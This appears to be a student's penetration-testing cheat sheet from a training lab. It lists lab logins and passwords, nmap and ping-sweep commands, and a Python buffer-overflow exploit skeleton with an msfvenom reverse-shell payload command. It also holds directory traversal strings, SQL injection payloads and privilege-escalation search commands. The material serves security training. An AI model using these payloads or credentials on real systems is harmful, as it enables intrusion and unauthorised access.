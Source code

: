 # Useful Links

## GTFO BINS
https://gtfobins.github.io/

## Security CTFD Server
https://sec.cybbh.io/public/security/latest/index.html

	CTFD Server: http://10.50.20.250:8000	
	User: NIRI-505-M  
	Pass: gVN5chrkxW0bym1 	

## LinOps:
	ssh -X student@10.50.22.235
	password1

 ## Winops:

	xfreerdp /u:student /p:password /dynamic-resolution +clipboard /v:10.50.29.77

 # Host Discovery 

     nmap -v -sT -Pn -T4 -sV 192.168.28.111,120

## Places to check

	ip n
 	ip a / arp -a
  	cat /etc/hosts
   	ps -elf
    	ss -ntlp
     	cron
      	
     	
## HTTP Enumeration Script:

    nmap -v -sT -Pn -T4 --script=http-enum.nse 192.168.28.111 -p 80

## Ping Sweep: 

     for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" & ); done

     
### secureServerBuffo.py script
	#!/usr/bin/python2.7
	
	import socket
	
	'''
	625011AF
	625011BB
	msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.X.X lport=4444 -b "\x00" -f python
 	lhost = linux opstation, or whatever host is used to as the attack platform for operation. 
  
    Set multi/handler on msfconsole, & and use script with msfvenom payload 
	'''
	
	
	buf = "TRUN /.:/" #Exploit
	buf += "A" * 2003 #Buffer Offset
	buf += "\xa0\x12\x50\x62"  #JMP ESP
	buf += "\x90" * 15 #NOP SLED
	buf += #SHELLCODE HERE
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # Creates IPv4 socket
	
	s.connect(("0.0.0.0",412XX))    #IP and port to connect to through tunnel
 	print s.recv(1024)   #print response
	s.send(buf)       #sends the variable buf
	print s.recv(1024)   #print response
	s.close()         #close the connection



# Review 

nmap scan:

	nmap -v -sT -Pn -T4 -sV <ip>

http-enum scan

     	nmap -v -sT -Pn -T4 --script=http-enum.nse <ip> -p 80

      Check /img/ for network map

directory traversal:

	Usually found in File to Read search bar. 

	../../../../../etc/passwd
 	../../../../../etc/hosts
  
Fuzzing the pages:

	pick.php?product=7 OR 1=1 ;
 	products7 UNION SELECT 1,2,3

   	<URL>/pick.php?product=7 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns	# golden Statement


Escalating Privs on Linux:

	find binaries with guid bit set. 

 	find / -type f -perm /2 -o -type d -perm /2 2>/dev/null  # Search for any file or directory that is writable by the context "other"

	find / -type f -perm /4000 -ls 2>/dev/null 	# finds commands with the suid bit set. 
 
 	find / -type f -perm /2000 -ls 2>/dev/null 	# finds commands with the guid bit set. 

	find / -type f -writable -o -type d -writable 2>/dev/null # Search for any file or directory that is writable by the current user /tmp 


Finding running service ports if nc doesn't give adequate results (Windows):
	
 	Grab pid # from: 
  		tasklist /sv | findstr <service name>
	run netstat -ano | findstr "pid#"



